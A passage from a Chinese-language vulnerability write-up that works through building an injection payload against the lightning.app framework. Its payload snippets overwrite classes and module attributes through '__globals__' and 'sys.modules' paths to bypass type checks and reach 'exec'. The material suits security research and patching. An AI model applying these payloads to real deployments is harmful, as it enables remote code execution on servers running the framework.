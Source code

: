 payload:

```php
# 绕过get_component_by_name中的if not isinstance(child, ComponentTuple):
"root['function'].'__globals__'['_sys'].modules['lightning.app'].core.LightningFlow": bypass_isinstance(),
# 对Union覆盖为普通的`list`即可
"root['function'].'__globals__'['_sys'].modules['typing'].Union": list,
```

由于我们构造的路径中实际上是通过`self.root.__init__.__builtins__['exec']`去最终获取`exec`对象的

![image-20240912154947504](https://shs3.b.qianxin.com/butian_public/fdfbe0d5ff67a509f02494c8ae34612e3.png)

没有列表类型，所以我们只需要覆盖`LightningDict`类也就是`lightning.app.structures.Dict`为普通`dict`即可（`LightningDict`是`lightning.app.structures.Dict`的别名）

payload:

```php
# 绕过get_component_by_name中的isinstance(current, LightningDict)，使其能够遍历普通字典
"root['function'].'__globals__'['_sys'].modules['lightning.app'].structures.Dict": dict,
```

但是这里将`lightning.app.structures.Dict`类覆盖为普通`dict`后继续调试发现会导致之前的程序报错

![image-20240912170742792](https://shs3.b.qianxin.com/butian_public/fd8ef5c1233c4dda1331be7cba3254d0f.png)

![image-20240912164230894](https://shs3.b.qianxin.com/butian_public/f24c657dac2a245dedeb01c3d8df408ab.png)

在前面的程序中进行`setattr`的时候调用了`__satattr__`魔术方法，这里同样从`lightning.app.structures`导入`Dict`，由于前面我们将其覆盖成了正常的`dict`，所以在调用下面的`_set_child_name(self, value, name)`方法时会报错。

所以这里有两个方案，一个是将`provided_state["vars"]`覆盖为空，就不会经过for循环，

payload:

```php
"root['vars']": {},
```

另一个是查看`self._is_state_attribute(name)`方法使其返回false，我们查看这个方法

![image-20240912171019283](https://shs3.b.qianxin.com/butian_public/f160764e2d16d8a548bf07ecc66fc0c32.png)

这个方法对传入的name判断是否在`LightningFlow._INTERNAL_STATE_VARS`

![image-20240912171112020](https://shs3.b.qianxin.com/butian_public/fe462c76e0b633aaafcc57ccf0b3b7cd5.png)

所以也可以将`_INTERNAL_STATE_VARS`覆盖为空也可以

```php
# or 将`_INTERNAL_STATE_VARS`覆盖为空，也不会进入报错对应的if条件语句里。
"root['function'].'__globals__'['_sys'].modules['lightning.app'].core.flow.LightningFlow._INTERNAL_STATE_VARS": (),
```

5、函数调用
------
